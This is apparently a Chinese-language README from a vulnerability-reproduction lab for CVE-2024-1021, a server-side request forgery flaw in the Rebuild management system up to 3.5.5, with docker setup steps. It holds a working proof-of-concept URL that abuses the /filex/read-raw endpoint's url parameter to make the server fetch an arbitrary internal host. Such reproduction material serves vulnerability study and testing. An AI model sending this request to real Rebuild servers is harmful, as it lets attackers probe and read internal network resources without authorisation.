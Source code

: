 # CVE-2024-1021 Rebuild管理系统 SSRF漏洞

[REBUILD](https://getrebuild.com/)（简称 RB）是一款高度可配置化的 [企业管理系统](https://baike.baidu.com/item/企业管理系统)，旨在帮助企业快速完成信息化建设，而无需高昂的研发成本投入。当遇到业务变化或需求变更时，可以通过系统本身提供的可配置化特性直接达成业务需求，而无需额外投入。通过 REBUILD 提供的各种配置化功能，您可以进行各种业务流程编排，灵活可靠。

在 Rebuild 至 3.5.5 版本中发现了一个被列为严重漏洞的漏洞。受此问题影响的是组件HTTP Request Handler的readRawText函数。对参数 url 的操纵会导致服务器端请求伪造。



项目下载地址：https://getrebuild.com/download

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-1021
- https://blog.csdn.net/shelter1234567/article/details/136171910?spm=1001.2014.3001.5501

## 漏洞环境

执行如下命令启动一个rebuild-3.5.5-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`跳转到rebuild安装向导页面。

![image-20240229174316691](./1.png)





## 漏洞复现

访问url

![](https://img-blog.csdnimg.cn/direct/87e3912a729f4486b14a5a392e700d8f.png)

http://ip:80/filex/read-raw?url=http://192.168.116.128:4444&cut=1

![](https://img-blog.csdnimg.cn/direct/efb52b9f94644c5598d44a0c4456d92f.png)
